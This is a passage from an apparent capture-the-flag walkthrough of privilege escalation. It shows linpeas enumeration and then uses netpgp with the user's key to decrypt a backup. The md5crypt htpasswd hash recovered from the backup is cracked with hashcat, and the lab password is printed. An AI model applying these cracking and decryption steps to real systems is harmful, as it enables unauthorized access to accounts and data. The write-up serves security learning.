 Now onto root ! <br>

Passed linpeas to a writable folder in the user home dir... <br>

Also seen some files (pub pgp keys) in the .gnupg folder and an encrypted backup in <b>~/backups/</b> </br>

```
99% privesc in PATH (can write to /home/r.michaels/bin)

/etc/pam.d/sshd

[+] Hashes inside passwd file? ........... Binary file /etc/pwd.db matches

-r--r--r--  1 root  wheel  1498 Feb 14  2020 /etc/skel/.profile

```

Just need to find something that runs as root is vulnerable to PATH injection... <br>

Since i did not found anything (and we have the gnupg keys), lets try to find some program pgp related

```
cmd: find / -type f -iname "*pgp*" -print 2>/dev/null

/usr/bin/netpgp
/usr/bin/netpgpkeys
/usr/bin/netpgpverify

(the rest were libraries)
```

With the first we have an help screen which indicates that we can decrypt using the following command
```
cmd: netpgp --decrypt backups/devel_backup-2020-09-16.tar.gz.enc --output .gnupg/ext 


signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14 
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a 
uid              RSA 2048-bit key <r.michaels@localhost>
```

It work and used the RSA key to decrypt the file... interesting... lets checl <br> 

After extraction there was another .htpasswd file
```
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu. (same encryption mode as before - md5)
```

Cracking it
```
cmd: hashcat -a 0 -m 500 hash2.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou-75.txt

Results: 

webapi_user:littlebear 
```
